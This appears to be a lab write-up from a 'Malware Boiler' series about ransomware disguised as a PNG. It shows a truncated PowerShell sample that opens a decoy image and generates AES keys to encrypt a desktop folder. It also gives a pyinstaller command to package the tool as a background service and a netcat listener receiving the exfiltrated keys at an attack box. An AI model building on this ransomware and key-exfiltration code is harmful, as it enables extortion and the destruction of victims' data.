



# MALWARE BOILER
## 02.CRYP7L4D

A piece of ransomewhare hidden in a .png file,that encrypts the target folder using ... and than sends teh encryption keys to teh attack box. Upon compleation leaves a read_me.txt on teh desktop with a message. 

[Convert]::ToBase64String([IO.File]::ReadAllBytes("~\config\File.pdf")) | Out-File "pdf_base64.txt"

pyinstaller --onefile --windowed --name "Background_Service" "Windtunel Tool.pyw.py"

square@square-Inspiron-5558:~$ nc -lvnp 4434
Listening on 0.0.0.0 4434
Connection received on 192.168.1.8 50194
KEY_RECOVERY|BOX01-WIN10PRO|hDJX4Lv1TJ6TNYtoHyjtHVRh5BqOYCMv1hX2ZenCHS4=|8eNayO4LhrrmypYDhIsHgg==

## 01.EXECUTING PNG

<small>“07.Profile-png.png”<small>

Upon interacting with the png icon again the powershell script is envoked, this one encrypts the folder 5527, and sends the decryption keys to our Controll server via port ... , When the transfer finishes the script creates a read me.txt on the desktop with further user instructions.

### THE SAMPLE
<pre data-label="CRYP7L4D"><code>
<strong># --- 02.CRYP7L4D ---</strong>
<strong># 01. --< ENCODED PNG >--</strong>
$Base64Image = "/9j/4AAQSkZJRgABAQEAYABgAAD...(more where that came from)
<strong># 02. --< TEMP PATH >--</strong>
$ImagePath = "$env:TEMP\T1_Schematic.png"

<strong># 03. --< DECODE PNG >--</strong>
$ImageBytes = [System.Convert]::FromBase64String($Base64Image)
[System.IO.File]::WriteAllBytes($ImagePath, $ImageBytes)

<strong># 04. --< OPEN VIA VIEWER >--</strong>
Start-Process $ImagePath

<strong># 06. --< ENCRYPTION STAGE >--</strong>
$TargetFolder = "$home\Desktop\PROJECT.5527"
$AttackBoxIP = "192.168.1.16"
$Port = "4434"

if (Test-Path $TargetFolder) {
    # 1. Generate AES Key and IV
    $Aes = [System.Security.Cryptography.Aes]::Create()
    $Aes.KeySize = 256
    $Aes.GenerateKey()
    $Aes.GenerateIV()
    
    $KeyString = [Convert]::ToBase64String($Aes.Key)
    $IVString = [Convert]::ToBase64String($Aes.IV)
    
<strong>--< CUTTING THE CODE >--</strong>

## 02.WIRESHARK KEYS TRAFFIC

<small>“08.Wireshark-keys-traffic.png”<small>

Through the thraffic we can detect a connection being made to port ...

## 03.WIRESHARK KEYS STREAM

<small>“09.Wireshark-keys-stream.png”<small>

Again in clear traffic we can see the keys.

#### ‹‹‹DATA ENCRYPTED›››

[MALWARE-BOILER SERIES: Payload 03.W4LLPEPP3R ](./MALWARE-BOILER-03.md)  
*Last Trojan that downloads and sets a wallpaper to alert the user.* 

  
  ⦿
  

[4.2]

